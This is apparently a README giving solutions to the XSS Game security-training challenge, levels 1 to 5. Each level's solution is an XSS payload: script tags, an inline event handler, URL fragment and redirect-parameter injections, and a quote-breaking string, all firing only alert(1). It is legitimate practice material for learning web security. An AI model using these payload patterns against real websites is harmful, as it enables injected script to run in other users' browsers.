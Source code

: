 # xss-game
https://xss-game.appspot.com/

LEVEL 1
-------
```<script>alert(1)</script>```

LEVEL 2
-------
```<button onclick="javascript:alert(1)">Click me</button>```

LEVEL 3
-------
```https://xss-game.appspot.com/level3/frame#'><script>alert(1)</script>```

LEVEL 4
-------
```');alert('1```

LEVEL 5
-------
```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)```
